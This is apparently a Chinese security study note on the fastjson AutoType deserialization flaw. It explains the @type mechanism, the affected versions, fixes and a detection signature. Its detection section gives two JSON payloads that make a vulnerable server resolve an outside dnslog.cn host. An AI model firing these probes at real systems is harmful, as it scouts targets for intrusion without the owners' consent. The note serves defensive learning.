

## 1.fastjson简介

fastjson是阿里巴巴开源json组件，可解析和生成json字符串，用于java对象和json字符串互相转换。

## 2.序列化和反序列化

**序列化**：java对象->字节序列（json字符串）

**反序列化**：字节序列（json字符串）->java对象

**AutoType功能**：在fastjson对json字符串进行反序列化时，AutoType功能可标注类对应的原始类型，使用@type定位到具体类型

## 3.漏洞原理

通过AutoType功能，fastjson对JSON字符串反序列化时，读取@type的内容，将JSON内容反序列化成这个对象，调用该类的setter方法。

利用这个特性，**@type的类可以被恶意构造，只要合理构造一个JSON，使用@type指定一个想要的攻击类库就可以实现攻击**



## 4.影响版本

fastjson <= 1.2.68

## 5.漏洞检测

DNSlog回显

`payload`：识别1.2.67之前版本

```powershell
{"tpa":{"@type":"java.net.Inet4Address","val":"cegkgu.dnslog.cn"}}
```

`payload`：识别1.2.67之后版本

```powershell
{"@type":"java.net.Inet4Address","val":"cegkgu.dnslog.cn"}
```

fastjson攻击检测特征：@type，commit值为true

## 6.修复方案

* 升级到fastjson安全版本
* 使用safeMode禁用AutoType
* 使用白名单：仅允许已知安全的类进行反序列化操作

## 7.漏洞复现过程

https://blog.csdn.net/Bossfrank/article/details/130100893